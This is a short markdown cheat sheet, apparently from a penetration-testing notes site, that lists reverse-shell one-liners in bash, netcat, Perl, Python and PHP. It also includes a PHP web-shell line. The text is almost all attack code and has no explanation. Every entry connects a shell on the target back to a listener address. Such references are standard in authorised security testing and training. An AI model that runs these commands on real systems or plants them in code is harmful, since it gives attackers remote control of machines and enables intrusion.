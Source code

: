 # Shells

{% embed url="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

### Bash

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Netcat

```
nc -e /bin/sh 10.0.0.1 1234
```

### Netcat (without -e)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### Perl

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

'<?php exec(\'/bin/bash -c \"bash -i >& /dev/tcp/192.168.119.124/4445 0>&1\"\'); ?>'
```

